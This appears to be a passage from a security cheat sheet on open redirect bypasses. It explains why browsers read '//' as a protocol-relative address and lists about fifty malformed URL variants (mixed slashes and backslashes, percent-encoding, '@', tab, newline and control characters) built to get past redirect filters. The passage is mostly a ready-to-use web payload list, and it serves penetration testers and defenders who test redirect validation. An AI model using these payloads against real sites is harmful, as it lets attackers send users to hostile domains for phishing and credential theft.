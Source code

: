 `//` is considered a shortener for `https://` by modern browsers which then instructs them to redirect a user to another domain. The following is a non-exhaustive list of payloads exploiting the discrepancy between the two standards:
```powershell
https://%65%78%61%6D%70%6C%65%2E%63%6F%6D
https:////example.com
https:///example.com
https://example.com
https:/example.com
https:example.com
https:\example.com
https:\\example.com
https:\\\example.com
https:\\\\example.com
https:/\/\example.com
https:\/\/example.com
https://\\example.com
https:\\//example.com
https:///\example.com
https:\///example.com
https:/\\\example.com
https:\\\/example.com
https:/\/example.com
https:\/\example.com
https://\example.com
https:\\/example.com
https:/\\example.com
https:\//example.com
https:/\example.com
https:\/example.com
////example.com
///example.com
//example.com
/example.com
example.com
\example.com
\\example.com
\\\example.com
\\\\example.com
/\/\example.com
\/\/example.com
//\\example.com
\\//example.com
///\example.com
\///example.com
/\\\example.com
\\\/example.com
/\/example.com
\/\example.com
//\example.com
\\/example.com
/\\example.com
\//example.com
/\example.com
\/example.com
```
Sometimes filters can be tricked by special characters in unexpected places. Most common examples include the `%09` tab, `%0D` carriage-return and `%0A` new-line characters. `@` (`%40`) is another useful character commonly known to affect browser navigation. Browser will generally navigate to a domain specified after `@`. Other injection characters are based on or inspired by vulnerabilities found in other lower level URL parsing libraries. Examples follow:
```powershell
%01https://example.com
%02https://example.com
```